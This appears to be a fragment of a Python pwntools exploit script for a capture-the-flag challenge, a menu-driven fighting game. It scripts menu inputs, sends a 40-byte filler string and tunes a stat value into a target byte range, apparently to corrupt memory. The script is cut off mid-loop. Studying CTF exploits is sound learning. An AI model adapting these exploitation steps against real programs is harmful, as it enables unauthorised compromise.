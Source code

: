 ```python
    r.sendlineafter('>', '2')
    r.sendlineafter('>', '4')
    r.sendlineafter('>', '3')

r.sendlineafter('>', '7')
r.sendlineafter('>', '2')
r.sendlineafter('Slot:', '7')

r.sendlineafter('>', '2') # fight
r.sendlineafter('>', '5')


play_game('rrrrrrrrrrrrrkrrprrdrrrdrrrprrrkdrrrdrrp'*100, x=True)
r.sendline('')
r.sendlineafter('Which notch on your belt will this victory go?', '1')
r.sendlineafter('What Name Shall you Remember this fighter by?', 'asdfsadfd')
r.sendlineafter('**Hands over the mic**', 'B'*40)

r.sendlineafter('>', '2') # fight
r.sendlineafter('>', '0')
play_game('rrrrrrkpdrkpdrkpdrkpd'*30, x=True) #, verbose=True)

r.sendline('')
r.sendlineafter('Which notch on your belt will this victory go?', '2')
r.sendlineafter('What Name Shall you Remember this fighter by?', 'asdfsadfd')

# lift

r.sendlineafter('>', '7')
r.sendlineafter('>', '2')
r.sendlineafter('Slot:', '0')

for i in range(10):
    r.sendlineafter('>', '1') # lift
    r.sendlineafter('>', '4')
    r.sendlineafter('>', '2') # punch


def make_fit():
    while True:
        r.sendlineafter('>', '4')
        r.sendlineafter('>', '2') # punch
        r.sendlineafter('>', '6')
        r.recvuntil('Punch: ')
        x = int(r.recvuntil(',').replace(b',', b'')) + 3
        x &= 0xff
        x += 0x19
        # if (x > 0xe4 and x <= 0xe4 + 3) or
        if (x > 0xbc and x <= 0xbc + 3):
            break

make_fit()

r.sendlineafter('>', '7')
r.sendlineafter('>', '2')
r.sendlineafter('Slot:', '1')

print('go...!')

context.log_level = 'error'
while True:
    print('gogo', i)
    r.sendlineafter('>', '7')
```